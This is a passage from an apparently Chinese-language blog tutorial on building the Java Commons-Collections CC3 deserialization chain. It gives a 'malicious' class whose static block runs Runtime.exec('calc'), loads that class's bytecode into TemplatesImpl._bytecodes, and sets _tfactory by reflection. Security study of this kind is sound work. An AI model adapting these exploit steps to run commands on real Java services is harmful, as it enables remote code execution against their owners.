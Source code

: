 ![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/ValueSet.png)

`_class` 的值应当为 null，我们去看 `TemplatesImpl` 的构造方法中没有给 `_class` 赋初值，所以不用管它。

`_name` 的值，这里需要的是 String，所以我们简单赋个 String 即可。

- `_bytecodes` 这里比较难，我们过一遍。

`_bytecodes` 的值，这里需要的是一个二维数组，所以我们创建一个二维数组。但是 `_bytecodes` 作为传递进 defineClass 方法的值是一个一维数组。而这个一维数组里面我们需要存放恶意的字节码。这一段伪代码可以这样写。

在写这段小 poc 之前，要先写一个 Calc.class 的恶意类并编译。

JAVA

```
import java.io.IOException;  
  
public class Calc {  
    static {  
        try {  
            Runtime.getRuntime().exec("calc");  
 } catch (IOException e){  
            e.printStackTrace();  
 }  
    }  
}
```

直接编写静态代码块就可以了，因为在类初始化的时候会自动执行代码。

JAVA

```
byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
byte[][] codes = {evil};
```

- `_tfactory` 这里比较难，我们也过一遍，这两个过完之后，写其他的就没什么问题了。

`_tfactory` 的值在 `TemplatesImpl` 这一类中被定义如下，关键字是 `transient`，这就导致了这个变量在序列化之后无法被访问。

JAVA

```
private transient TransformerFactoryImpl _tfactory = null;
```

直接修改是不行的，但是我们这里的利用要求比较低，只要让 `_tfactory` 不为 null 即可，我们去看一看 `_tfactory` 的其他定义如何。

在 `readObject()` 方法中，找到了 `_tfactory` 的初始化定义。

![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/tfactoryNotNull.png)

所以这里直接在反射中将其赋值为 `TransformerFactortImpl` 即可，伪代码如下。

JAVA

```
Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
tfactoryField.setAccessible(true);  
tfactoryField.set(templates, new TransformerFactoryImpl());
```
